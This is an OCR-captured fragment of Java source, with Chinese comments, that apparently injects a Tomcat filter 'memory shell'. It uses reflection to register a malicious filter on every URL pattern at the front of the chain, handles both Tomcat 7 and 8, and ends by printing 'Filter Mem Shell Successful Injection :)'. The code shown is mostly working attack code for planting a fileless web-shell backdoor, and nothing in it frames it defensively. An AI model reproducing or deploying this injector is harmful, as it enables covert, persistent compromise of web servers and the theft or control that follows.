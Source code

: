 ```java
                } else {
                    chain.doFilter(req, resp);
                }
            }

            @Override
            public void destroy() {
            }
        };

        // 获取 FilterDef，兼容Tomcat 7和8
        Class filterDefClass = null;
        try{
            // 8
            filterDefClass = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        }catch(Exception e){
            // 7
            filterDefClass = Class.forName("org.apache.catalina.deploy.FilterDef");
        }

        Object filterDef = filterDefClass.newInstance();
        filterDef.getClass().getDeclaredMethod("setFilterName", new Class[]{String.class}).invoke(filterDef, new Object[]{filterName});

        filterDef.getClass().getDeclaredMethod("setFilterClass", new Class[]{String.class}).invoke(filterDef, new Object[]{filter.getClass().getName()});
        filterDef.getClass().getDeclaredMethod("setFilter", new Class[]{Filter.class}).invoke(filterDef, new Object[]{filter});
        standardContext.getClass().getDeclaredMethod("addFilterDef", new Class[]{filterDefClass}).invoke(standardContext, new Object[]{filterDef});

        // 获取 FilterMap，，兼容Tomcat 7和8
        Class filterMapClass = null;
        try {
            // Tomcat 8
            filterMapClass = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        } catch (Exception e) {
            // Tomcat 7
            filterMapClass = Class.forName("org.apache.catalina.deploy.FilterMap");
        }

        Object filterMap = filterMapClass.newInstance();
        filterMap.getClass().getDeclaredMethod("setFilterName", new Class[]{String.class}).invoke(filterMap, new Object[]{filterName});
        filterMap.getClass().getDeclaredMethod("setDispatcher", new Class[]{String.class}).invoke(filterMap, new Object[]{DispatcherType.REQUEST.name()});
        filterMap.getClass().getDeclaredMethod("addURLPattern", new Class[]{String.class}).invoke(filterMap, new Object[]{"/*"});

        //调用 addFilterMapBefore 会自动加到队列的最前面，不需要原来的手工去调整顺序了
        standardContext.getClass().getDeclaredMethod("addFilterMapBefore", new Class[]{filterMapClass}).invoke(standardContext, new Object[]{filterMap});

        //设置 FilterConfig
        Constructor constructor = org.apache.catalina.core.ApplicationFilterConfig.class.getDeclaredConstructor(new Class[]{org.apache.catalina.Context.class, filterDefClass});
        constructor.setAccessible(true);
        org.apache.catalina.core.ApplicationFilterConfig filterConfig = (org.apache.catalina.core.ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

        try {
            map.put(filterName, filterConfig);
            response.getWriter().write("Filter Mem Shell Successful Injection :)");
```